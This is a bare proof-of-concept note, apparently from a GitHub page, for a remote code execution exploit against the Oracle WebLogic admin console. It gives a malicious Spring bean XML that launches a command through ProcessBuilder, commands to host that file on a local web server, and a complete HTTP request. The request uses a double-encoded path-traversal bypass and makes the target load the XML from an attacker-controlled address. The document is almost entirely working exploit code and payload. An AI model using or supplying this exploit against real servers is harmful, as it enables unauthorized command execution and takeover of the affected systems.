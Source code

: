 #### poc.xml

`python -m SimpleHTTPServer`

`python -m pyftpdlib`

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
## ClassPathXmlApplicationContext

`com.bea.core.repackaged.springframework.spring.jar#com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext`

```
POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
Host: 192.168.28.128:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://172.16.242.1:8989/poc.xml")
```